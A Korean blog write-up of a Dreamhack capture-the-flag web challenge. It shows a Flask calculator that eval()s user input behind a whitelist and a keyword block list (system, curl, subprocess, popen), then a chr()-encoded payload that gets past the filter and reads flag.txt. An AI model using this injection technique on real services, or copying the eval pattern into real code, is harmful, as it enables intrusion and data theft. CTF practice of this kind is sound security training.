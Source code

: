 ```yaml
---
title: (39) Dreamhack Addition calculator 문제 풀이
date: 2024-02-16 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
덧셈 식을 입력하면 계산 결과를 출력하는 웹 서비스입니다. `./flag.txt` 파일에 있는 플래그를 획득하세요.
플래그 형식은 `DH{...}` 입니다.

## 문제 풀이
![](https://kyuyeop.github.io/assets/img/post/39/1.png)
사이트에 들어오면 이런게 있습니다.
![](https://kyuyeop.github.io/assets/img/post/39/2.png)
이런식으로 입력하면
![](https://kyuyeop.github.io/assets/img/post/39/3.png)
덧셈 결과가 나오는 사이트 입니다.  
  
코드를 보겠습니다.
```python
#!/usr/bin/python3
from flask import Flask, request, render_template
import string
import subprocess
import re


app = Flask(__name__)


def filter(formula):
    w_list = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
    w_list.extend([" ", ".", "(", ")", "+"])

    if re.search("(system)|(curl)|(flag)|(subprocess)|(popen)", formula, re.I):
        return True
    for c in formula:
        if c not in w_list:
            return True


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "GET":
        return render_template("index.html")
    else:
        formula = request.form.get("formula", "")
        if formula != "":
            if filter(formula):
                return render_template("index.html", result="Filtered")
            else:
                try:
                    formula = eval(formula)
                    return render_template("index.html", result=formula)
                except subprocess.CalledProcessError:
                    return render_template("index.html", result="Error")
                except:
                    return render_template("index.html", result="Error")
        else:
            return render_template("index.html", result="Enter the value")


app.run(host="0.0.0.0", port=8000)
```
입력을 받고 간단한 필터링을 한 뒤 eval을 통해 값을 구합니다. 다른 말로는 페이로드를 필터링을 통과할 수 있게 만들면 시스템을 장악할 수 있게 된다는 뜻이기도 하죠.  
  
이번 문제는 flag.txt에 있는 것만 읽으면 되는 거니 간단하게 해결했습니다.  
  
`abcdefghihjlmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 .()+` 만을 입력할 수 있다고 하는 군요. 해당 범위 안에서 아래와 같이 만들었습니다.
```python
open(chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read()
```
따옴표와 콤마를 사용할 수 없어서 char함수로 더하는 방식으로 해결했습니다.  
  
위 내용을 입력하면
![](https://kyuyeop.github.io/assets/img/post/39/4.png)
flag가 나옵니다.
{% endraw %}